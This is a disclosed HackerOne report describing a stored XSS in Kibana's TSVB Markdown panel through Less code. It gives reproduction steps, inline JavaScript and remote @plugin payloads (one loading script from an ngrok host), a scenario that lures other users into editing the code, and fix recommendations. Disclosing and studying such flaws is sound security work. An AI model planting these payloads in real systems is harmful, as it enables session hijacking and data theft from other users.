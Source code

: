 # Stored XSS in TSVB Visualizations Markdown Panel

## Report Details
- **Report ID**: 858874
- **URL**: https://hackerone.com/reports/858874
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-24T21:32:45.160Z
- **Disclosed**: 2020-07-28T18:53:28.254Z

## Reporter
- **Username**: jeremybuis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

**Summary:** An authenticated user can save a TSVB visualization, which contains a stored cross-site scripting (XSS) payload in the included Less code as part of the markdown panel.

**Description:** I've found a stored cross-site scripting (XSS) issue in the TSVB visualization. The Markdown panel accepts Custom CSS and Less. The proof-of-concept attack below shows how to create an XSS using the Less language.  By injecting a payload like: body { color: \`confirm('XSS')\`; } , a malicious user is able to gain JavaScript execution on the domain. When another authenticated user edits the Less code, the payload fires.

## Steps To Reproduce:

I created an instance of Kibana on cloud.elastic.co and performed the following:

1. Login to Kibana and navigate to the visualizations page and click "Create Visualization"
2. Select TSVB
3. Navigate to the Markdown tab
4. Navigate to the Panel options sub tab
5. Place the following payload in the custom CSS editor:
    body { color: \`confirm('XSS')\`; }
6. Notice the Confirm dialog
7. Save the visualization
8. As another user, navigate to the visualizations custom css and edit the Less
9. Notice the Confirm dialog

A similar attack can be done on the demo.elastic.co Kibana instance as well. Heres a permalink to the example above: [Demo Kibana Less XSS](https://demo.elastic.co/app/kibana#/visualize/create?type=metrics&_g=()&_a=(filters:!(),linked:!f,query:(language:kuery,query:''),uiState:(),vis:(aggs:!(),params:(axis_formatter:number,axis_position:left,axis_scale:normal,default_index_pattern:'filebeat-*',default_timefield:'@timestamp',id:'61ca57f0-469d-11e7-af02-69e470af7417',index_pattern:'',interval:'',isModelInvalid:!f,markdown:'%23+Hello',markdown_css:'%23markdown-61ca57f0-469d-11e7-af02-69e470af7417+body%7Bcolor:true%7D',markdown_less:'%2F%2F+@plugin+%22https:%2F%2Fef358b0f.ngrok.io%2Fcxss.js%22;%0Abody+%7B+color:+%60confirm(!'XSS!')%60+%7D%0A%0A',series:!((axis_position:right,chart_type:line,color:%2368BC00,fill:0.5,formatter:number,id:'61ca57f1-469d-11e7-af02-69e470af7417',line_width:1,metrics:!((id:'61ca57f2-469d-11e7-af02-69e470af7417',type:count)),point_size:1,separate_axis:0,split_mode:everything,stacked:none)),show_grid:1,show_legend:1,time_field:'',type:markdown),title:'',type:metrics)))

###Scenario

A malicious user could create a scenario where the visualization is saved as part of a dashboard, and the processed CSS causes a problem with the view, inviting other users to try and fix the issue. When the other users try and fix the issue, they trigger the XSS payload. The malicious user could then perform actions as if the were the affected user, and potentially ex-filtrate sensitive data they didn't already have access too.

###Alternate Payload

If including malicious JavaScript in the Less code is too obvious, the malicious user can include a Less plugin instead. The Less code would look like the following:

```
@plugin "https://www.example.com/plugin";
```
Notice that the ".js" extension is not needed, further obfuscating the attack. The plugin code would look like the following:

```
confirm("XSS Less plugin");
module.exports = {
  install: function(less, pluginManager, functions) {
    functions.add('xss', function(val) {
      return val.value;
    });
  }
};
```

This approach is less obvious compared to the inline JS, when an unsuspecting user tries to modify the Less code.

## Impact: XSS can be used to force users to download malware, navigate to malicious websites, or hijack users sessions. For Kibana, the vulnerability could allow an attacker to obtain sensitive information from or perform destructive actions on behalf of other Kibana users.

### Recommendations:

Upgrade to Less version 3.0 or greater and confirm that the Less option { javascriptEnabled: false } is properly configured. This will fix the inline JavaScript execution problem.

There is no fix at the moment for the plugin syntax as far as I know. I will be communicating with the Less team shortly to see what can be done.

## Supporting Material/References:

  * Two screenshots showing both the inline JavaScript injection and the Less plugin option against the demo.elastic.co instance
  * Two screenshots showing both inline and plugin options against a deployment on https://cloud.elastic.co/
  * My example Less plugin

## Impact

The vulnerability could allow an attacker to obtain sensitive information from or perform destructive actions on behalf of other Kibana users

## Attachments
- kibana-less-inline-xss.PNG
- kibana-less-inline-xss-v2.PNG
- kibana-less-plugin-xss.PNG
- kibana-less-plugin-xss-v2.PNG
- cxss.js
